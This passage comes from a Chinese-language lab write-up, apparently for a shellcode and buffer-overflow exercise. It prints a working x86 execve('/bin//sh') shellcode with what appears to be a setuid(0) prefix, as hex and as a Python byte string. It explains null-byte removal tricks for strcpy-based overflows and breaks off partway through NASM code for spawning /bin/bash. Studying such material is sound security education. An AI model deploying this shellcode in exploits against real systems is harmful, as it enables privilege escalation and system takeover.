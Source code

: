 - -p表示列之间不需要空格
- -c 20表示一行有20个字符

提取出我们需要的二进制序列：

```
31c050682f2f7368
682f62696e89e3505389e131d231c0b00bcd80
```

可以使用conver.py得到二进制数组

```shell 
$ ./convert.py
Length of the shellcode: 35
shellcode= (
    "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
    "\x0b\xcd\x80"
).encode(’latin-1’)
```

# Task 1.b

> Shellcode 广泛应用于缓冲区溢出攻击。在许多情况下，漏洞是由字符串复制引起的，例如 strcpy ()函数。对于这些字符串复制函数，零被认为是字符串的末尾。因此，如果我们在 shell 代码的中间有一个零，字符串复制将不能将零后面的任何内容从这个 shell 代码复制到目标缓冲区，因此攻击将不能成功

因此我们有必要将上面二进制序列的0去除

一些去0的方法：

- 使用`xor eax，eax`去取代`mov eax, 0`

- 如果我们要存储0x0000099到 eax。我们不能只使用 mov eax，0x99，因为第二个操作数实际上是0x0000099，它包含三个零

  - 首先将 eax 设置为零，然后为 al 寄存器分配一个1字节的数字0x99

- 使用移位操作

  - 下面操作等价于将`xyz\0`赋给ebx

  ```asm
  mov ebx, "xyz#"
  shl ebx, 8
  shr ebx, 8
  ```

接下来到了第一个任务，我们需要执行/bin/bash，并且不可以有多余的/

```asm
section .text

  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax
      push eax          ; Use 0 to terminate the string
        mov ebx,"hhhh"
        shl ebx, 24
        shr ebx, 24
        push ebx
      push "/bas"
      push "/bin"
      mov  ebx, esp     ; Get the string address
      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]

      ; For environment variable 
      xor  edx, edx     ; No env variables 
```